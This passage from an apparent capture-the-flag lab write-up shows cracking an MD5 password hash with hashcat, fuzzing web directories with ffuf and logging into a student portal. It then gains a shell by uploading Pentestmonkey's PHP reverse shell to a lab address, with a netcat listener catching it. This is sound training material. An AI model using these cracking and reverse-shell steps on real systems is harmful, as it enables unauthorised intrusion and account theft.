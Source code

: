 ```txt
-jdelta
```

The note contained sensitive information, including a hashed password, which we proceeded to crack.

#### Cracking the Hash
The hash cd73502828457d15655bbd7a63fb0bc8 was identified as MD5, and we cracked it using Hashcat.  

```shell
┌──(psychic㉿0xShakhawat)-[~]
└─$ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

cd73502828457d15655bbd7a63fb0bc8:student

```
The cracked password was **`student`**.

### Enumerating HTTP
#### Directory Enumeration with FFUF
Next, we performed directory enumeration on the HTTP service using FFUF.  

```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.208.129/FUZZ
```

We found three directories: academy, phpmyadmin, and server-status.  

#### Exploring Academy
Inside the `academy` directory, we encountered a login page. Using the credentials found in `note.txt` (Reg No: 10201321, Password: student), we successfully logged in. After exploring the profile section, we found an option to upload an image, which we tested for file upload vulnerabilities.  

## Initial Access
We uploaded a PHP reverse shell using Pentestmonkey's script and configured a Netcat listener.  

### Netcat Listener Setup:
```shell
┌──(psychic㉿0xShakhawat)-[~]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
```

### Uploading PHP Reverse Shell
Using Pentestmonkey's php reverse shell.

Chenging the ip and port.
```shell
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.208.139';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

```
After uploading the file, it was automatically executed, granting us a shell.

